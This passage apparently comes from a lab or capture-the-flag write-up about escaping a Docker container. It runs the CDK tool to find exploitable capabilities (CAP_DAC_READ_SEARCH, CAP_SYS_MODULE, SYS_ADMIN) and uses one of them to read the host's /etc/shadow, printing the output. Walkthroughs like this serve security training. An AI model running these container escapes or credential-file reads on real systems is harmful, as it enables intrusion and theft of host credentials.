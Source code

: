 ## Docker Escape

As we know that the root directory of the system contains a `.dockerenv` file, we can be sure that the telnet sessions are running in a Docker container. Now that we have root access, we can try to enumerate the container and potentially escape into the host.

As the system does not have any binary, we cannot use container enumeration scripts like [deepce](https://github.com/stealthcopter/deepce), as they will fail to give any useful results.

That being said, [CDK](https://github.com/cdk-team/CDK/tree/main) would be the perfect tool in that case, as it's a pre-build binary.

```shell
/# ./cdk eva --full
./cdk eva --full
...SNIP...
[  Information Gathering - Commands and Capabilities  ]
...SNIP...
[*] Maybe you can exploit the Capabilities below:
[!] CAP_DAC_READ_SEARCH enabled. You can read files from host. Use 'cdk run cap-dac-read-search' ... for exploitation.
[!] CAP_SYS_MODULE enabled. You can escape the container via loading kernel module. More info at https://xcellerator.github.io/posts/docker_escape/.
Critical - SYS_ADMIN Capability Found. Try 'cdk run rewrite-cgroup-devices/mount-cgroup/...'.
Critical - Possible Privileged Container Found.
...SNIP...
```

The results show that the container has two capabilities that can be exploited.
- CAP_DAC_READ_SEARCH: Allows you to read files from the host.
- CAP_SYS_MODULE: A serious system capability which can be exploited by loading a kernel module.

```shell
/# ./cdk run cap-dac-read-search
./cdk run cap-dac-read-search
Running with target: /etc/shadow, ref: /etc/hostname
root:*:18561:0:99999:7:::
daemon:*:18561:0:99999:7:::
bin:*:18561:0:99999:7:::
sys:*:18561:0:99999:7:::
sync:*:18561:0:99999:7:::
games:*:18561:0:99999:7:::
man:*:18561:0:99999:7:::
lp:*:18561:0:99999:7:::
mail:*:18561:0:99999:7:::
news:*:18561:0:99999:7:::
uucp:*:18561:0:99999:7:::
proxy:*:18561:0:99999:7:::
www-data:*:18561:0:99999:7:::
backup:*:18561:0:99999:7:::
list:*:18561:0:99999:7:::
irc:*:18561:0:99999:7:::
gnats:*:18561:0:99999:7:::
nobody:*:18561:0:99999:7:::
systemd-network:*:18561:0:99999:7:::
systemd-resolve:*:18561:0:99999:7:::
systemd-timesync:*:18561:0:99999:7:::
messagebus:*:18561:0:99999:7:::
syslog:*:18561:0:99999:7:::
_apt:*:18561:0:99999:7:::
tss:*:18561:0:99999:7:::
uuidd:*:18561:0:99999:7:::
tcpdump:*:18561:0:99999:7:::
sshd:*:18561:0:99999:7:::
landscape:*:18561:0:99999:7:::
pollinate:*:18561:0:99999:7:::
```